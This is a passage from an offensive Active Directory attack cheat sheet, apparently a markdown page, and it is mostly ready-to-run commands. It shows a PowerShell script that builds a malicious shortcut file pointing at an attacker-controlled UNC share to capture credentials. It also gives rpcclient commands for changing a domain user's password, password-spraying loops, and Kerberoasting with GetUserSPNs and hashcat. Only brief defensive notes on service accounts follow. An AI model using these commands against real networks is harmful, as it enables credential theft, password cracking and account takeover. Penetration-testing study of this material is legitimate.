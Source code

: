 Using PowerShell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\<attackerIP>\@file.txt"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "LNK file"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### RPC Misc
##### AD user password modification using rpcclient  

```
user@host # rpcclient -U supportAccount //192.168.0.100
[...] authenticate using the supportAccount password which needs to be modified
rpcclient $> setuserinfo2 supportAccount 23 SuperNewPassword22
```

--> Note : If package passing-the-hash is installed on attacker machine, you can even do this with just a NTLM hash. (Flag : --pw-nt-hash)

##### RPC password spraying

```
while read x; do echo $x; rpcclient -U “DOMAIN/$x%PasswOrd123” -c “getusername;quit” 192.168.0.110; done < ./userlist.txt

Using bash script:
#/bin/bash
for u in 'cat dom_users.txt'
do echo -n "[*] user: $u" && rpcclient -U "$u%password" -c "getusername;quit" 10.10.10.192
done
```

### Kerberoasting
Service Principal Names (SPN's) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service).  

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

```
GetUserSPNs.py -request -dc-ip 192.168.1.10 COMPANY.LOCAL/jdoe:PasswordJdoe123 -outputfile hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```


--> To protect against this attack, we must avoid having *SPN* on user accounts, in favor of machine accounts.  
--> If it is necessary, we should use Microsoft’s Managed Service Accounts (MSA) feature, ensuring that the account password is robust and changed regularly and automatically

